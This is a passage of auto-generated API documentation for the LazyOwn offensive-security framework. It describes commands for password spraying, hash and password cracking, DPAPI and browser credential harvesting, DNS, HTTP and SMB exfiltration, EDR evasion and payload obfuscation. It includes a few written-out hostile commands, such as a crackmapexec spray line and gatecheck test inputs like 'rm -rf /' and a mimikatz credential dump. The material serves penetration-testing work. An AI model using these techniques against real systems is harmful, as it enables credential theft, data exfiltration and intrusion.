self.params['domain'] (str): The self.params['domain'] entered by the user, defaulting to 'example.com'.

Returns:
None

Example Usage:
- To generate emails using default values: `createmail`
- To specify a full name and self.params['domain']: `createmail`

Note:
- The generated emails will be stored in a file named `emails_{full_name}_{self.params['domain']}.txt`
  within the `sessions` directory.*
- `do_passwordspray` (line 674) `def do_passwordspray(self, line)` - *Perform password spraying using crackmapexec with the provided parameters.

:param line: This parameter is not used in the function but can be reserved for future use.

:returns: None

Manual execution:
To manually run `crackmapexec` for password spraying, use the following command:

    crackmapexec smb <IP Address> -u <users_file> -p <password> --continue-on-success

This function prompts the user for IP address, user file, and password.*
- `do_addusers` (line 706) `def do_addusers(self, line)` - *Opens or creates the users.txt file in the sessions directory for editing using nano.

:param line: Not used directly but reserved for future use.

:returns: None*
- `do_passtightvnc` (line 728) `def do_passtightvnc(self, line)` - *Decrypts TightVNC passwords using Metasploit.

This function demonstrates how TightVNC passwords can be decrypted using the known hardcoded DES key
from the program and Metasploit's `Rex::Proto::RFB::Cipher.decrypt` function.

Steps:
- Receives the password in hexadecimal format from the command line input.
- Creates a Metasploit resource script that includes commands to decrypt the TightVNC password.
- Executes Metasploit with the created resource script and then deletes the temporary file.
- Prints the decrypted password.

:param line: The TightVNC password in hexadecimal format.
:type line: str
:returns: None

Manual execution:
To manually decrypt a TightVNC password, you would need to:
- Use Metasploit's `Rex::Proto::RFB::Cipher.decrypt` function with the hardcoded DES key and the hexadecimal password.

Example:
passtightvnc D7A514D8C556AADE*
- `do_transform` (line 775) `def do_transform(self, line)` - *Transforms the input string based on user-defined casing style.

This command asks the user for a casing style (e.g., lower, upper, camel, pascal)
and transforms the input string accordingly.

Parameters:
    line (str): Input string to be transformed.*
- `do_username_anarchy` (line 803) `def do_username_anarchy(self, line)` - *Generate usernames using the username-anarchy tool based on user input.

This function prompts the user to either provide names directly or select
options such as auto-generation based on country datasets, input files, and
specific username formats. It then constructs the command for `username-anarchy`
and executes it.

:param line: is optional you can pass the name and lastname as an argument example: username_anarchy firstname lastname
:returns: None*
- `do_john2keepas` (line 904) `def do_john2keepas(self, line)` - *List all .kdbx files in the 'sessions' directory, let the user select one, and run the
command `sudo keepass2john {user_file} > sessions/hash.txt`.
If 'sessions/hash.txt' already exists, it will be backed up with a timestamp to avoid overwriting.

Parameters:
line (str): An optional string parameter. This can be used for any additional input,
            though it's not needed in this specific command.

Returns:
None*
- `do_keepass` (line 953) `def do_keepass(self, line)` - *Open a .kdbx file and print the titles and contents of all entries. The password can be provided through
the 'line' parameter, via user input, or from a 'credentials.txt' file in the 'sessions' directory.

If the file 'credentials.txt' exists in the 'sessions' directory, the first password from it
will be used automatically.

Parameters:
line (str): An optional string parameter to pass the password. If not provided, the user will
            be prompted to input the password.

Returns:
None*
- `do_crack_cisco_7_password` (line 1017) `def do_crack_cisco_7_password(self, line)` - *Crack a Cisco Type 7 password hash and display the plaintext.

This command takes an encrypted Cisco Type 7 password hash as input,
processes it to recover the original plaintext password, and prints the
result to the console.

Args:
    line (str): The encrypted password hash in Cisco Type 7 format.

Returns:
    None: The function prints the plaintext password directly to the console.*
- `do_cubespraying` (line 1039) `def do_cubespraying(self, line)` - *Command cubespraying: Automates the installation and usage of CubeSpraying for performing credential spraying attacks.

This function performs the following tasks:
1. Clones and installs CubeSpraying if not already installed.
2. Prompts the user for the target URL, username file, password file, and optional parameters like verbosity and timeout.
3. Executes CubeSpraying for credential spraying attacks against the target URL.

Args:
    line (str): Optional argument for specifying the target URL, username file, password file, and additional CubeSpraying options.

Returns:
    None

Example:
    cubespraying --url http://example.com --usernames users.txt --passwords passwords.txt --verbose --timeout 5*
- `do_john2zip` (line 1101) `def do_john2zip(self, line)` - *List all .zip files in the 'sessions' directory, let the user select one, and run the command
`zip2john {selected_file} > sessions/hash.txt`.
Then, run John the Ripper to crack the hash using the RockYou wordlist with multiple forks.

Parameters:
line (str): An optional string parameter. This can be used for any additional input, though
            it's not needed in this specific command.

Returns:
None*
- `do_createusers_and_hashs` (line 1162) `def do_createusers_and_hashs(self, line)` - *Command createusers_and_hashs: Extracts usernames and hashes from a dump file.

This function opens a nano editor for the user to input the contents of a
file in the format:

    username:UID:LM_HASH:NT_HASH:::

Once the data is entered and saved, the function generates:
1. A file named `usernames_{self.params['rhost']}.txt` containing all usernames.
2. Individual files named `hash_{username}.txt` for each user, containing
the user's LM and NT hash in the format `LM_HASH:NT_HASH`.

Args:
    line (str): Unused parameter, kept for consistency.

Returns:
    None*
- `do_refill_password` (line 1205) `def do_refill_password(self, line)` - *Generate a list of possible passwords by filling each asterisk in the input with user-specified characters.

:param line: A string containing asterisks (e.g., WebAO***7) for generating variations.

:returns: None

Process:
Prompts the user to enter characters to replace each asterisk, creates all possible combinations,
and saves them to 'sessions/passwords_refilled.txt'. If this file exists, the previous version is
renamed with a timestamp suffix.*
- `do_rocky` (line 1241) `def do_rocky(self, line)` - *Reduces a wordlist based on the specified password length.

This function filters the provided wordlist to only include passwords
that match the specified length. If no length is provided, it defaults
to 4. The function constructs a grep command to achieve this and executes
it.

Usage:
    do_rocky(line: str)

:param line: The length of the passwords to filter in the wordlist.
            This parameter should be a string representing a positive integer.
            If not provided, the function prompts the user for input.
:type line: str
:raises ValueError: If the provided length is not a valid positive integer.

Example:
    do_rocky('8')
    # Executes: grep '^.\{8\}$' /usr/share/wordlists/rockyou.txt > sessions/lazypass_mini_rocky.txt*
- `do_adsso_spray` (line 1277) `def do_adsso_spray(self, line)` - *Performs a password spray attack on Azure Active Directory Seamless Single Sign-On (SSO) using a specified list of users.

This function automates the process of spraying a given password across multiple user accounts in a target self.params['domain']. It utilizes
a user list in the form of a text file, targeting Azure AD Seamless SSO endpoints. The results are processed and saved to
a specified output file, providing insights into which accounts were successful or failed during the attack.

Requirements:
    - A valid self.params['domain'] and URL for the target Azure AD instance. (assing url https://url.com)
    - A user dictionary file containing usernames (without the self.params['domain']) to be sprayed.

Parameters:
    line (str): Command-line input passed to the function (not currently used in the function).

Behavior:
    - Loads the self.params['domain'] and URL from the configuration stored in `self.params`.
    - Reads the user list from a file specified in `get_users_dic`.
    - Sprays the specified password to all users and processes the results.
    - Saves the successful and failed attempts to the output file.

Example:
    - Perform a password spray attack with the password "admin" and save the results:
        >>> adsso_spray
    - Customize the password or user list by modifying `self.params` before invoking the function.*

#### `crystal_ball.py`
**Path:** `cli/commands/crystal_ball.py`
**File Doc:** *Crystal Ball CLI command set — privilege escalation vector prediction.  Parses linpeas/winpeas output and suggests ranked privesc vectors with exact commands, CVE references, and MITRE ATT&CK mapping.*

**Classes:**
- `CrystalBallCommandSet` (line 20) `class CrystalBallCommandSet(LazyOwnCommandSet)` - *Crystal Ball — privesc vector prediction and ranking.*

**Functions:**
- `_auto_detect_enum_file` (line 119) `def _auto_detect_enum_file()` - *Find linpeas or winpeas output in sessions/.

Returns:
    Absolute path to the most recent enumeration file, or None.*
- `_safe_filename` (line 151) `def _safe_filename(name)` - *Sanitise a string for use as a filename component.*

**Methods:**
- `do_crystal_ball` (line 27) `def do_crystal_ball(self, line)` - *Analyze linpeas/winpeas output and rank privesc vectors with exact commands.

Usage:
    crystal_ball <file>               Analyse enumeration output file
    crystal_ball --text "<output>"     Analyse raw text from clipboard
    crystal_ball --auto                Auto-detect linpeas/winpeas in sessions/

Matches kernel CVEs, SUID binaries (GTFOBins), capabilities, sudo rules,
group memberships (docker/lxd), and cron jobs. When an LLM backend is
configured, additional context-aware vectors are suggested.

Examples:
    crystal_ball sessions/linpeas_10.0.2.15.txt
    crystal_ball --auto*
- `do_privesc_suggest` (line 110) `def do_privesc_suggest(self, line)` - *Quick alias for crystal_ball --auto.

Usage:
    privesc_suggest*

#### `daemon_ctl.py`
**Path:** `cli/commands/daemon_ctl.py`
**File Doc:** *Autonomous daemon control extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.*

**Classes:**
- `DaemonControlCommandSet` (line 17) `class DaemonControlCommandSet(LazyOwnCommandSet)` - *Autonomous daemon control commands.*

**Methods:**
- `do_daemon_mode` (line 24) `def do_daemon_mode(self, line)` - *Switch the autonomous daemon between auto, approval and paused modes.

Usage:
    daemon_mode auto       Run without operator gating (default).
    daemon_mode approval   Require operator approval per command.
    daemon_mode paused     Block the loop before the next step.

The selected mode is persisted to
``sessions/daemon_control.json`` and read by the daemon before
every step. No daemon restart is required.

Args:
    line: Whitespace-stripped mode name.

Returns:
    None.*
- `do_daemon_pause` (line 63) `def do_daemon_pause(self, line)` - *Pause the autonomous daemon before its next step.

Equivalent to ``daemon_mode paused``. The daemon polls the
control file between steps and resumes once the mode flips back
to auto or approval.

Args:
    line: Ignored.*
- `do_daemon_resume` (line 82) `def do_daemon_resume(self, line)` - *Resume the autonomous daemon (switch mode to auto).

Args:
    line: Ignored.*
- `do_daemon_veto` (line 97) `def do_daemon_veto(self, line)` - *Add or clear vetoed command first-tokens for the autonomous daemon.

Usage:
    daemon_veto add <command>       Block <command> on future steps.
    daemon_veto remove <command>    Remove a previously-blocked command.
    daemon_veto clear               Drop every veto entry.
    daemon_veto                     List the current vetoes.

Args:
    line: Sub-command plus optional command token.*
- `do_daemon_focus` (line 141) `def do_daemon_focus(self, line)` - *Restrict the autonomous daemon to a set of focus targets.

Usage:
    daemon_focus <ip_or_host> [<ip_or_host> ...]
    daemon_focus clear         Drop the focus list (run anywhere).
    daemon_focus               Print the current focus targets.

Args:
    line: Whitespace-separated list of targets or sub-command.*
- `do_daemon_approve` (line 175) `def do_daemon_approve(self, line)` - *Approve or veto the daemon's currently-pending action.

Usage:
    daemon_approve                   Approve the active pending action.
    daemon_approve veto              Veto the active pending action.
    daemon_approve show              Print the pending action (no decision).

The active action lives in ``sessions/daemon_control.json``
under ``pending`` and is created by the daemon when running in
approval mode.

Args:
    line: Optional sub-command.*
- `do_gatecheck` (line 224) `def do_gatecheck(self, line)` - *Dry-run the safety gate against one command line.

Usage:
    gatecheck lazynmap 127.0.0.1
    gatecheck "rm -rf /"
    gatecheck mimikatz sekurlsa::logonpasswords

Runs the exact pre-execution chain the autonomous loops use —
payload constraints (deny wins), the global scope deny list,
then the intercept guard rules — and prints the verdict plus
what the loop would do with it. Nothing is executed.

Args:
    line: Command line to evaluate.

Returns:
    None.*

#### `database.py`
**Path:** `cli/commands/database.py`
**File Doc:** *Database commands — workspace isolation, host/service/vuln management, nmap import, export, and status reporting.  Mirrors the Metasploit ``db_*`` workflow. The backing store is :class:`modules.db.LazyOwnDB` (SQLite in ``sessions/db/lazyown.db``).*

**Classes:**
- `DatabaseCommandSet` (line 26) `class DatabaseCommandSet(LazyOwnCommandSet)` - *Database commands for campaign state management.*

**Functions:**
- `shlex_split` (line 560) `def shlex_split(text)` - *Split text like shlex.split but handle empty strings gracefully.*

**Methods:**
- `_get_db` (line 32) `def _get_db(self)`
- `_active_workspace` (line 40) `def _active_workspace(self)`
- `do_db_init` (line 57) `def do_db_init(self, line)` - *Initialize the database (creates schema if not exists).

Usage: db_init [path]
The database is created at sessions/db/lazyown.db by default.*
- `do_db_workspace` (line 75) `def do_db_workspace(self, line)` - *Manage workspaces (list, create, switch, delete).

Usage:
    db_workspace             — list workspaces
    db_workspace <name>      — create/switch to workspace
    db_workspace -d <name>   — delete workspace
    db_workspace -r <name>   — rename workspace (not yet supported)*
- `do_db_hosts` (line 124) `def do_db_hosts(self, line)` - *List or add hosts in the active workspace.

Usage:
    db_hosts                          — list all hosts
    db_hosts -a <ip> [hostname] [os]  — add a host
    db_hosts -d <id>                  — delete a host
    db_hosts -s <query>               — search (by IP, hostname, OS)*
- `do_db_services` (line 185) `def do_db_services(self, line)` - *List all services in the active workspace.

Usage: db_services [host_id]*
- `do_db_vulns` (line 213) `def do_db_vulns(self, line)` - *List or add vulnerabilities.

Usage:
    db_vulns                      — list all vulns
    db_vulns -a <host_id> <name>  — add a vuln
    db_vulns -s <severity>        — filter by severity*
- `do_retest` (line 267) `def do_retest(self, line)` - *Re-verify a finding in an isolated session (LAZY retester).

Usage:
    retest <finding_id> [command]   — re-run PoC or command away
    from the live session, then record reproducible / fixed /
    inconclusive. Only a fixed conclusion flips status.

The verification runs through a fresh runner process carrying a
retest session id, so the live world model is never touched.*
- `do_db_creds` (line 349) `def do_db_creds(self, line)` - *List or add credentials.

Usage:
    db_creds                          — list all creds
    db_creds -a <host_id> <user> <pass> [type]*
- `do_db_loot` (line 393) `def do_db_loot(self, line)` - *List or add loot items.

Usage:
    db_loot                           — list all loot
    db_loot -a <name> <path> [type]   — add a loot entry*
- `do_db_notes` (line 433) `def do_db_notes(self, line)` - *List or add notes.

Usage:
    db_notes                      — list all notes
    db_notes -a <text> [type]     — add a note*
- `do_db_import` (line 471) `def do_db_import(self, line)` - *Import scan results into the database.

Usage: db_import <file>
Supported formats: Nmap XML (.nmap, .xml)*
- `do_db_export` (line 509) `def do_db_export(self, line)` - *Export database table to CSV.

Usage: db_export <table> [output_file]
Tables: hosts, services, vulns, creds, loot, notes*
- `do_db_status` (line 543) `def do_db_status(self, line)` - *Show entity counts for the active workspace.

Usage: db_status*

#### `defaults.py`
**Path:** `cli/commands/defaults.py`
**File Doc:** *Build-defaults inspection and override command set.  Phase-scoped home for the ``defaults`` operator command (category ``12. Miscellaneous``). Build-time fallbacks live in ``config/defaults.toml`` and are read through ``core.defaults``; this command shows effective values and writes per-engagement overrides into ``payload.json`` through the canonical ``assign`` path, so the TOML file itself is never rewritten at runtime.  Usage: defaults show defaults show wordlists defaults set wordlist /path/to/list.txt defaults set lport 4444 defaults set rport 443*

**Classes:**
- `DefaultsCommandSet` (line 38) `class DefaultsCommandSet(LazyOwnCommandSet)` - *Inspect and override build-time default constants.*

**Methods:**
- `do_defaults` (line 45) `def do_defaults(self, line)` - *Show or override build-time defaults (TOML + payload.json).

:param line: 'show [section]' or 'set <name> <value>'.*
- `_show` (line 60) `def _show(self, section)` - *Print TOML defaults alongside live payload values.*
- `_set` (line 77) `def _set(self, name, value)` - *Persist an override into payload.json via the assign path.*

#### `demo.py`
**Path:** `cli/commands/demo.py`
**File Doc:** *End-to-end demo command — MCP registration plus the golden path.  Runs the documented first-shift flow in one shot so a new operator (or a recorded demo) sees every surface working together:  mcp add  ->  session init (sitrep)  ->  recommend_next  ->  lazynmap  The MCP step only prints the registration command — the operator runs it in their AI client (Claude Code / Hermes). The remaining three steps execute inside this shell via ``onecmd`` delegation, so ``demo`` behaves exactly like typing each command by hand (and composes with ``&&``).*

**Classes:**
- `DemoCommandSet` (line 22) `class DemoCommandSet(LazyOwnCommandSet)` - *One-shot golden-path demo: MCP wiring plus sitrep/recommend/scan.*

**Methods:**
- `do_demo` (line 29) `def do_demo(self, line)` - *Run the end-to-end demo: MCP registration, session init, recommend, scan.

Usage:
    demo                 — full flow (ends with a live lazynmap scan)
    demo --dry-run       — preview every step without scanning
    demo --skip-scan     — session init + recommend_next only

Steps:
  1. Prints the MCP registration for AI clients
     (``mcp add lazyown python3 ./skills/lazyown_mcp.py``).
  2. Session init — runs ``sitrep`` (CLI equivalent of the MCP
     tool ``lazyown_session_init``).
  3. Runs ``recommend_next`` (CLI equivalent of
     ``lazyown_recommend_next``).
  4. Runs ``lazynmap`` against the current rhost (CLI equivalent
     of ``lazyown_run_command('lazynmap')``).*

#### `diagnostics.py`
**Path:** `cli/commands/diagnostics.py`
**File Doc:** *Diagnostics CommandSet (Tier 2 pilot).  A small, low-risk phase module that proves the ``CommandSet`` registration flow works end-to-end against a live ``LazyOwnShell`` instance. It exposes read-only commands operators can use to inspect the framework's runtime state without mutating anything.  Subsequent tiers migrate the ~280 legacy ``do_*`` methods from ``lazyown.py`` into similar phase-scoped modules.*

**Classes:**
- `DiagnosticsCommandSet` (line 23) `class DiagnosticsCommandSet(LazyOwnCommandSet)` - *Operator-facing diagnostics commands.*

**Methods:**
- `do_sys_runtime` (line 30) `def do_sys_runtime(self, _statement)` - *Print interpreter, platform and core LazyOwn paths.*
- `do_sys_payload_keys` (line 41) `def do_sys_payload_keys(self, _statement)` - *List the keys currently present in the parent shell's payload.*

#### `dns_exfil.py`
**Path:** `cli/commands/dns_exfil.py`
**File Doc:** *DNS exfiltration and covert channel command set.  Phase 09 — commands for DNS tunneling exfiltration, DNS C2 beacon management, and DNS query log monitoring.*

**Classes:**
- `DNSExfilCommandSet` (line 44) `class DNSExfilCommandSet(LazyOwnCommandSet)` - *DNS exfiltration and covert channel commands.*
- `ExfilHandler` (line 227) `class ExfilHandler(BaseHTTPRequestHandler)`

**Functions:**
- `_sanitize_filename` (line 36) `def _sanitize_filename(name)` - *Return a safe basename from an untrusted input, falling back to a random name.*

**Methods:**
- `do_dns_beacon` (line 51) `def do_dns_beacon(self, line)` - *Start a DNS tunneling beacon.

Usage: dns_beacon --domain <c2.domain.com> [--type A|TXT|AAAA]
       [--sleep <seconds>] [--jitter <percent>] [--server <dns_server>]

The DNS beacon encodes heartbeats and command output as subdomain
DNS queries. Commands are received via DNS response records.
Requires a cooperating DNS server for the controlled domain.*
- `do_dns_exfil_listen` (line 97) `def do_dns_exfil_listen(self, line)` - *Start a DNS exfiltration listener on UDP port 53.

Usage: dns_exfil_listen [--port <port>] [--domain <domain>] [--output <dir>]

Listens for DNS queries containing encoded file data in subdomain
labels. Reconstructs files from base32-encoded, gzip-compressed
chunks. Supports A, TXT, and AAAA query types.*
- `do_dns_beacon_status` (line 183) `def do_dns_beacon_status(self, line)` - *Show status of all DNS beacons.

Reads beacon state from sessions/dns_beacons.json.*
- `do_http_exfil_server` (line 204) `def do_http_exfil_server(self, line)` - *Start a minimal HTTP exfiltration receiver.

Usage: http_exfil_server [--port <port>] [--output <dir>]

Listens for HTTP POST requests containing exfiltrated file data.
Supports chunked uploads with X-Chunk-* headers for reassembly.*
- `do_smb_exfil` (line 304) `def do_smb_exfil(self, line)` - *Exfiltrate files to an SMB share on the attacker machine.

Usage: smb_exfil <file_path> [--share <share_name>] [--host <smb_host>]

Copies a file to an SMB share. Requires an SMB server running
on the attacker machine (e.g., impacket-smbserver).*
- `do_exfil_start_server` (line 338) `def do_exfil_start_server(self, line)` - *Start all required exfiltration listeners.

Usage: exfil_start_server [--all] [--dns] [--http] [--smb]

Starts DNS (53/udp), HTTP (8888/tcp), and SMB (445/tcp) listeners
for receiving exfiltrated data via all transports.*
- `_extract` (line 384) `def _extract(args, flag)`
- `do_POST` (line 228) `def do_POST(self)`
- `log_message` (line 289) `def log_message(self, fmt)`

#### `dpapi.py`
**Path:** `cli/commands/dpapi.py`
**File Doc:** *DPAPI credential harvesting command set.  Phase 09 — commands for DPAPI master key extraction, credential manager decryption, browser data harvesting, and offline DPAPI blob attacks.*

**Classes:**
- `DPAPICommandSet` (line 23) `class DPAPICommandSet(LazyOwnCommandSet)` - *DPAPI credential harvesting and decryption commands.*

**Methods:**
- `do_dpapi_harvest` (line 30) `def do_dpapi_harvest(self, line)` - *Harvest all DPAPI-protected credentials from the local machine.

Usage: dpapi_harvest [--sessions <dir>]

Collects:
- Master keys from %APPDATA%/Microsoft/Protect
- Credential Manager entries (cmdkey)
- Chrome/Edge passwords, cookies, payment methods
- Wi-Fi profiles with WPA keys
- RDP credential cache
- Windows Vault entries

Run from the implant or local Windows machine.*
- `do_dpapi_masterkeys` (line 66) `def do_dpapi_masterkeys(self, line)` - *List and extract DPAPI master keys.

Usage: dpapi_masterkeys [--path <masterkey_path>]

Lists GUIDs, SIDs, and file paths for all discovered master keys.
Use with dploot or dpapilab for offline decryption.*
- `do_dpapi_blob` (line 113) `def do_dpapi_blob(self, line)` - *Decrypt a DPAPI blob offline.

Usage: dpapi_blob <blob_hex> [--mk <masterkey_hex>] [--entropy <entropy_hex>]

Decrypts a raw DPAPI blob using the provided master key.
Format: hex string of the raw DPAPI ciphertext.*
- `_extract` (line 151) `def _extract(args, flag)`

#### `edr_detect.py`
**Path:** `cli/commands/edr_detect.py`
**File Doc:** *EDR Detection command set.  Phase 02 — commands for detecting endpoint security products on targets, generating evasion profiles, and recommending bypass techniques.*

**Classes:**
- `EDRDetectCommandSet` (line 27) `class EDRDetectCommandSet(LazyOwnCommandSet)` - *EDR/AV detection and evasion profiling commands.*

**Methods:**
- `do_edr_detect` (line 34) `def do_edr_detect(self, line)` - *Detect EDR/AV products on the target.

Usage:
    edr_detect                    Detect locally (from implant)
    edr_detect --target <ip>      Generate remote detection commands
    edr_detect --target <ip> --user <u> --password <p>  Execute remotely via CrackMapExec

Fingerprints 17 EDR/AV products and generates tailored bypass recommendations.*
- `do_edr_profile` (line 84) `def do_edr_profile(self, line)` - *Generate an evasion profile based on detected EDR.

Usage: edr_profile [--product <name>]

Takes detected EDR product names and recommends specific bypass
techniques. With no arguments, shows bypasses for common EDRs.*
- `do_edr_script` (line 140) `def do_edr_script(self, line)` - *Generate a PowerShell EDR detection script.

Usage: edr_script [--output <path>]

Creates a comprehensive PowerShell script that detects 17+ EDR/AV
products via WMI, services, processes, registry, and drivers.
Saves to sessions/edr_detect.ps1 by default.*
- `_extract` (line 173) `def _extract(args, flag)`

#### `encoding.py`
**Path:** `cli/commands/encoding.py`
**File Doc:** *Encoding commands extracted from misc_migrated.py.  Phase misc cluster: URL/base64/rot/obfuscation helpers. Active: originals deleted from ``cli/commands/misc_migrated.py`` and this set is registered by ``cli.registry``.*

**Classes:**
- `EncodingCommandSet` (line 30) `class EncodingCommandSet(LazyOwnCommandSet)` - *Encoding helpers (pending).*

**Functions:**
- `double_base64_encode` (line 281) `def double_base64_encode(cmd)` - *Perform double Base64 encoding on the given command.

This helper function takes a command string, encodes it in Base64, and then performs
another Base64 encoding on the result. The final encoded string is returned.

Args:
    cmd (str): The command string to be encoded.

Returns:
    str: The double Base64 encoded string.

Example:
    >>> double_base64_encode("example")
    'ZWN4YW5hbWVsZQ=='

Notes:
    - The function first encodes the command string into bytes using UTF-8 encoding.
    - It then applies Base64 encoding twice and removes any leading or trailing whitespace.
    - The result is decoded back to a string and returned.

Raises:
    TypeError: If the input `cmd` is not a string.*
- `apply_obfuscations` (line 309) `def apply_obfuscations(cmd)` - *Generate a list of obfuscated commands based on the given input command.

This function creates various obfuscated versions of the provided command string.
Each obfuscation method applies a different technique to disguise the command,
making it less recognizable to simple static analysis.

Args:
    cmd (str): The command string to be obfuscated.

Returns:
    list of str: A list of obfuscated command strings.

Notes:
    - Each obfuscation method aims to transform the command in a unique way.
    - Obfuscations include encoding, character replacement, and command substitution techniques.
    - Ensure that the `double_base64_encode` function is defined and available in the scope where this function is used.

Raises:
    TypeError: If the input `cmd` is not a string.*

**Methods:**
- `do_urlencode` (line 37) `def do_urlencode(self, line)` - *Encode a string for URL.

This function takes a string as input, encodes it for URL compatibility using the `quote` function, and prints the encoded result.

Usage:
    urlencode <string_to_encode>

:param line: The string to encode for URL.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a string to be URL-encoded as an argument. The function will encode it and print the result.

Note: If no input is provided or the input is only whitespace, an error message will be displayed.*
- `do_urldecode` (line 66) `def do_urldecode(self, line)` - *Decode a URL-encoded string.

This function takes a URL-encoded string as input, decodes it using the `unquote` function, and prints the decoded result.

Usage:
    urldecode <url_encoded_string>

:param line: The URL-encoded string to decode.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a URL-encoded string as an argument. The function will decode it and print the result.

Note: If no input is provided or the input is only whitespace, an error message will be displayed.*
- `do_encode` (line 95) `def do_encode(self, line)` - *Encodes a string using the specified shift value and substitution key.

This function encodes the given string by applying a shift value and a substitution key.

Usage:
    encode <shift_value> <substitution_key> <string>

:param line: The input string containing the shift value, substitution key, and the string to be encoded. The format should be '<shift_value> <substitution_key> <string>'.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a shift value (integer), a substitution key, and the string to encode in the format `encode <shift_value> <substitution_key> <string>`.

Note: The function assumes the shift value is an integer. If the shift value is not an integer, it will print an error message.*
- `do_decode` (line 135) `def do_decode(self, line)` - *Decode a string using the specified shift value and substitution key.

This function decodes the given string by applying a shift value and a substitution key to reverse the encoding process.

Usage:
    decode <shift_value> <substitution_key> <string>

:param line: The input string containing the shift value, substitution key, and the string to be decoded. The format should be '<shift_value> <substitution_key> <string>'.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a shift value (integer), a substitution key, and the string to decode in the format `decode <shift_value> <substitution_key> <string>`.

Note: The function assumes the shift value is an integer. If the shift value is not an integer, it will print an error message.*
- `do_rot` (line 173) `def do_rot(self, line)` - *Apply a ROT (rotation) substitution cipher to the given string.

This function rotates each character in the input string by the specified number of positions in the alphabet. It supports rotation values between 1 and 27.

Usage:
    rot <number> '<string>'

:param line: The input string containing the number and the text to be rotated. The format should be '<number> '<string>' where <number> is the rotation amount and <string> is the text to be ciphered.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a number (rotation amount) and a string in the format `rot <number> '<string>'`. Ensure the number is between 1 and 27.

Note: The function assumes that the rotation number is an integer between 1 and 27. If the number is out of range or not a valid integer, it will print an error message.*
- `do_rotf` (line 213) `def do_rotf(self, line)` - *Apply a ROT (rotation) substitution cipher to the given extension.

This function rotates each character in the input extension by the specified number of positions in the alphabet. It supports rotation values between 1 and 27.

Usage:
    rot <number> '<extension>'

:param line: The input extension containing the number and the text to be rotated. The format should be '<number> '<extension>' where <number> is the rotation amount and <extension> is the text to be ciphered.
:type line: str
:returns: None

Manual execution:
To manually run this task, provide a number (rotation amount) and a extension in the format `rot <number> '<extension>'`. Ensure the number is between 1 and 27.

Note: The function assumes that the rotation number is an integer between 1 and 27. If the number is out of range or not a valid integer, it will print an error message.*
- `do_encoderpayload` (line 259) `def do_encoderpayload(self, line)` - *Applies various obfuscations to a given command line string to create multiple obfuscated versions.

1. Defines a helper function `double_base64_encode(cmd)` that performs double Base64 encoding on a given command.
2. Defines the `apply_obfuscations(cmd)` function to create a list of obfuscated commands using different techniques.
3. Applies these obfuscations to the provided `line` argument and prints each obfuscated command.

:param line: The command line string to be obfuscated.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would:
- Provide the command you want to obfuscate as the argument to this function.
- The function will generate various obfuscated versions of the command and print them.

Note: Ensure that the command is properly formatted and valid to avoid errors during obfuscation. The obfuscations may involve different encoding and string manipulation techniques.*
- `do_base64encode` (line 361) `def do_base64encode(self, line)` - *Encodes a given string into Base64 format.

1. Encodes the input string:
    - Uses the `base64` library to encode the provided string into Base64 format.

2. Displays the encoded string:
    - Prints the Base64 encoded string to the terminal.

:param line: The string to encode in Base64 format.
:type line: str
:returns: None

Manual execution:
To manually encode a string in Base64:
- Provide the string to the command and it will print the Base64 encoded result.
Example usage: `base64encode HelloWorld`*
- `do_base64decode` (line 389) `def do_base64decode(self, line)` - *Decodes a Base64 encoded string.

1. Decodes the Base64 string:
    - Uses the `base64` library to decode the provided Base64 encoded string back to its original form.

2. Displays the decoded string:
    - Prints the decoded string to the terminal.

:param line: The Base64 encoded string to decode.
:type line: str
:returns: None

Manual execution:
To manually decode a Base64 encoded string:
- Provide the Base64 encoded string to the command and it will print the decoded result.
Example usage: `base64decode SGVsbG9Xb3JsZA==`*
- `do_encodewinbase64` (line 420) `def do_encodewinbase64(self, line)` - *Encodes a given payload into a Base64 encoded string suitable for Windows PowerShell execution.

This function takes a payload as input, encodes it into UTF-16 Little Endian format,
and then encodes the resulting bytes into a Base64 string. It then constructs PowerShell
commands that can execute the encoded payload. The final commands are printed and
copied to the clipboard for easy use.

Args:
    line (str): The payload to be encoded. If not provided, the function will prompt
                the user to enter a payload, defaulting to 'whoami' if no input is given.

Returns:
    None

Example:
    >>> encoder = Encoder()
    >>> encoder.do_encodewinbase64('Get-Process')
    [Outputs the encoded PowerShell commands and copies the final command to the clipboard]*
- `do_ip2hex` (line 483) `def do_ip2hex(self, line)` - *Convert an IPv4 address into its hexadecimal representation.

This function takes an IPv4 address in standard dotted-decimal format
(e.g., '192.168.1.1') and converts each of its four octets into a hexadecimal
number. The resulting hexadecimal string is concatenated without separators,
providing the full hexadecimal equivalent of the IP address.

The input IP address is expected to be a string in the format 'X.X.X.X',
where X is an integer between 0 and 255.

Parameters:
line (str): The input string representing the IPv4 address in dotted-decimal format.

Returns:
None: The hexadecimal equivalent of the IP address is printed to the console.*
- `do_hex_to_plaintext` (line 509) `def do_hex_to_plaintext(self, line)` - *Converts hexadecimal data from a file to plain text.

Opens a text editor for the user to paste hexadecimal data into a file.
Then reads the file, processes the hexadecimal data, and writes the plain text to a new file.

Args:
    line (str): Name of the file containing hexadecimal data (without extension).
                Defaults to 'request.txt' if not provided.

Returns:
    None*

#### `enum.py`
**Path:** `cli/commands/enum.py`
**File Doc:** *Enumeration command set.  Service enumeration commands: SMB, RPC, LDAP quick checks, and related impacket tools.*

**Classes:**
- `EnumCommandSet` (line 31) `class EnumCommandSet(LazyOwnCommandSet)` - *Enumeration phase commands.*

**Methods:**
- `do_smbclient` (line 38) `def do_smbclient(self, line)` - *Interacts with SMB shares using the `smbclient` command to perform the following operations:

1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.
2. If `line` (share name) is provided:
- Attempts to access the specified SMB share on the remote host using the command: `smbclient -N \\{rhost}\{line}`
3. If `line` is not provided:
- Lists available SMB shares on the remote host with the command: `smbclient -N -L \\{rhost}`
4. Suggests a potential SMB exploit if possible by mounting the share from the local host using: `mount -t cifs "//{lhost}/share" /mnt/smb`

:param line: The name of the SMB share to access on the remote host. If not provided, the function will list all available shares.
:returns: None*
- `do_smbclient_impacket` (line 108) `def do_smbclient_impacket(self, line)` - *Interacts with SMB shares using the `smbclient` command to perform the following operations:

1. Checks if `rhost` (remote host) and `lhost` (local host) are assign; if not, an error message is displayed.
2. If `line` (share name) is provided:
